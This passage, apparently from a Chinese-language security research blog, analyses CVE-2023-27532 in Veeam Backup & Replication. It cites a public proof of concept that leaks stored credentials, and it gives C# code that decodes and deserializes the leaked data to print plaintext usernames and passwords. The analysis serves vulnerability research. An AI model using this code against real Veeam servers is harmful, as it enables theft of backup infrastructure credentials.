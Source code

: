 x86和x64均需要安装，[veeam-creds](https://github.com/sadshade/veeam-creds)运行成功如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2023-3-17/2-6.png)

## 0x05 CVE-2023-27532简要分析
---

Y4er公布了调用CredentialsDbScopeGetAllCreds获得明文凭据的POC:https://y4er.com/posts/cve-2023-27532-veeam-backup-replication-leaked-credentials/

### 1.凭据位置

此处的明文凭据对应的位置为：`Veeam Backup & Replication Console`->`Manage Credentials`，默认明文口令为空，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2023-3-17/3-1.png)

调试断点位置为`Veeam.Backup.DBManager.dll`->`CCredentialsDbScope`，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2023-3-17/3-2.png)

### 2.数据解析

POC最终的返回结果为序列化之后的xml，将ParamValue作Base64解密后可以看到明文数据，但是格式不对，存在乱码

这里可以调用Veeam自带的dll反序列化数据，得到正确的格式

格式化输出字符串的代码示例：

```
            int pos1 = v.IndexOf("ParamValue=\"");
            int pos2 = v.IndexOf("/></Params>");
            String base64en = v.Substring(pos1 + 12, pos2 - pos1-14);
            byte[] data = Convert.FromBase64String(base64en);
            IList<Veeam.Backup.Model.CDbCredentialsInfo > result = Veeam.Backup.Core.CProxyBinaryFormatter.Deserialize<IList<Veeam.Backup.Model.CDbCredentialsInfo>>(base64en);
            foreach (var item in result)
            {
                Console.WriteLine("[+]");
                Console.WriteLine("DomainName: " + item.Credentials.DomainName);
                Console.WriteLine("Username: " + item.Credentials.UserName);
                Console.WriteLine("Password: " + item.Credentials.GetPassword());
                Console.WriteLine("IsLocalProtect: " + item.Credentials.IsLocalProtect);
                Console.WriteLine("CurrentUser: " + item.Credentials.CurrentUser);
                Console.WriteLine("Description: " + item.Credentials.Description);
                Console.WriteLine("ChangeTimeUtc: " + item.Credentials.ChangeTimeUtc);
            }
```

需要引用dll文件：

- Veeam.Backup.Common.dll
- Veeam.Backup.Configuration.dll
- Veeam.Backup.Interaction.MountService.dll
- Veeam.Backup.Logging.dll
- Veeam.Backup.Model.dll
- Veeam.Backup.Serialization.dll
- Veeam.TimeMachine.Tool.dll

